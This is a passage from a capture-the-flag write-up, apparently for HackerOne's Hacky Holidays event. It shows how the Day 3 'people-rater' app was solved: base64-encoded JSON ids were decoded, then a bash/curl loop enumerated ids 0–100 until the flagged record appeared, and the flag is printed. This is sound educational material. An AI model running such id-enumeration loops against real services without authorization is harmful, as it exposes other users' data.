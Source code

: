 and obviously day3 challenge will be located at `/apps`



----------------------------------------------------------------


## Day 3


fetching page, https://hackyholidays.h1ctf.com/apps, it looks like this page will host links for next days challenges
today challenge is at https://hackyholidays.h1ctf.com/people-rater

by looking at today's app, we have 2 options, to load more entries or check the rating for an entry
let's load some more entries

```
$ curl https://hackyholidays.h1ctf.com/people-rater/page/2
{"results":[{"id":"eyJpZCI6N30=","name":"Beatriz Rasmussen"},{"id":"eyJpZCI6OH0=","name":"Carly Legge"},{"id":"eyJpZCI6OX0=","name":"Violet Hussain"},{"id":"eyJpZCI6MTB9","name":"Leonidas Delarosa"},{"id":"eyJpZCI6MTF9","name":"Sanya Lancaster"}]}
```

there's an integer as page number in the GET request, i went to increment it untill there's no more new entries, still no flag
each entry has a `name` and a an `id`
the ids seems base64 encoded, decoding one of them shows up as a json data `{"id":[int]}`

now, to check the rating for an entry, a GET http request is made as the following:
```
$ curl https://hackyholidays.h1ctf.com/people-rater/entry?id=eyJpZCI6Mn0=
{"id":"eyJpZCI6Mn0=","name":"Tea Avery","rating":"Awful"}
```

again, we have that base64 encoded id, since the id seemed as an incrementing int, i went fuzzing for some ids from 0 to 100 with bash and curl to see if something comes up
```
$ for i in {0..100}
do
curl https://hackyholidays.h1ctf.com/people-rater/entry?id=`printf "{\"id\":${i}}"|base64`
done
["Entry not found"]{"id":"eyJpZCI6MX0=","name":"The Grinch","rating":"Amazing in every possible way!","flag":"flag{b705fb11-fb55-442f-847f-0931be82ed9a}"}{"id":"eyJpZCI6Mn0=","name":"Tea Avery","rating":"Awful"}{"id":"eyJpZCI6M30=","name":"Mihai Matthews","rating":"Loathsome"}{"id":"eyJpZCI6NH0=","name":"Ruth Ward","rating":"Disgusting"}
....
....
....
```
and flag was there at id=1


----------------------------------------------------------------

## Day 4
